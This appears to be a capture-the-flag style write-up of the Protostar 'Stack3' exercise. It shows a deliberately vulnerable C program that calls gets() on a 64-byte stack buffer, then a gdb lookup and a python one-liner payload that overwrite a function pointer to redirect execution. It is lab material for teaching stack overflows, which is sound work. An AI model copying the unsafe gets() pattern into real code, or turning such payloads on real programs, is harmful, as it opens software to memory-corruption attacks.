


# Stack3

## Description
Stack3 looks at environment variables, and how they can be set, and overwriting function pointers stored on the stack (as a prelude to overwriting the saved EIP)

## Source Code
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```
## Solution
On looking the source code we can see that there is a function `win` which is not called anywhere in the program. But there is pointer which works as a function pointer. If we change the value of this function to the address of win function, it will call win function into the main. We can get the address of the function win using gdb debugger.

Then we just need to copy this address and change the value of fp to this address. All this can be done using the following commands
```bash
gdb stack3
x win
quit
python -c "print(('1'*64)+'\x24\x84\x04\x08')" | ./stack3
```
